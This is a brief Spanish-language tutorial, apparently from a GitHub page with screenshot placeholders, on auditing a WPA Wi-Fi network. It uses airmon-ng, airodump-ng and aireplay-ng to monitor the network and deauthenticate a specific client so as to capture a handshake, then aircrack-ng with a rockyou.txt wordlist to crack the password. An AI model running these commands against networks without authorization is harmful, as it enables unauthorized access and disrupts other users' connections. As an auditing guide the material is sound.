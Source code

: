 ﻿Vemos cual es el nombre de nuestra interfaz de red

	iwconfig

Montamos a nuestra interfaz

	airmon-ng start wlp0s20f3  

### Foto 

Analizamos toda la red

	airodump-ng wlp0s20f3mon

### Foto



```bash
airodump-ng -c1 -w auditoria -d 50:4E:DC:38:C2:60  wlp0s20f3mon
```
### Foto
```
aireplay-ng --deauth 0 -a 50:4E:DC:38:C2:60 -c B2:11:8E:B5:DF:0D  wlp0s20f3mon
```
### Foto

Esperamos a que salga en la parte de arriba 

> WPA handshake: 50:4E:DC:38:C2:60 



Comparamos la contrasen con nuestro archivo 

	aircrack-ng auditoria-01.cap -w rockyou.txt

### Foto



Regresamos a nuestra interfaz normal

	airmon-ng stop wlp0s20f3mon


